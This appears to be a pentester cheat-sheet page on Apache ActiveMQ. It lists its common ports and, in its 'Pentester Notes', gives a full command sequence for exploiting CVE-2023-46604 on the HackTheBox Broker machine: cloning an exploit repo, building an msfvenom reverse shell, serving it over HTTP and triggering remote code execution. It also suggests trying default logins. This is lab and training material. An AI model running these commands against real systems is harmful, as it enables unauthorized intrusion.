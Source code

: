 # Apache ActiveMQ

<div class="row row-cols-lg-2"><div>

Apache [ActiveMQ](https://activemq.apache.org/) is an open source [message broker](https://en.wikipedia.org/wiki/Message_broker) written in Java. It support multiple protocols such as JMS, MQTT, STOMP, AMQP.

* [Classic](https://github.com/apache/activemq) <small>(2.2k ⭐)</small> / [Artemis](https://github.com/apache/activemq-artemis) <small>(0.9k ⭐)</small>
* [Artemis Documentation](https://activemq.apache.org/components/artemis/documentation/)
* ActiveMQ Artemis is the next gen version

It's commonly used when we need to connect applications that are using different protocols.
</div><div>

**Common ports** 🐊

* 1883 <small>(TCP, MQTT)</small>
* 5671 <small>(TCP, SSL/TLS AMQP)</small>
* 5672 <small>(TCP, AMQP)</small>
* 8161 <small>(TCP, Admin Web)</small>
* 8883 <small>(TCP, SSL/TLS MQTT)</small>
* 61613 <small>(TCP, STOMP)</small>
* 61614 <small>(TCP, SSL/TLS STOMP)</small>
* 61616 <small>(TCP, ActiveMQ OpenWire transport)</small>
</div></div>

<hr class="sep-both">

## ActiveMQ Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

* [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604): vulnerability in ActiveMQ OpenWire Transport leading to remote code execution

[![broker](../../../cybersecurity/_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```shell!

$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git cve-2023-46604
$ cd cve-2023-46604
$ sed -i 's/0.0.0.0/x.y.z.t/g' poc-linux.xml
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 RHOSTS=broker.htb -f elf -o test.elf
$ go build
$ python -m http.server 8001 # in another terminal
$ ./ActiveMQ-RCE -i <target_ip> -u http://<your_IP>:8001/poc-linux.xml
```

* Test default credentials (`admin:admin`, `user:user`)
</div><div>
</div></div>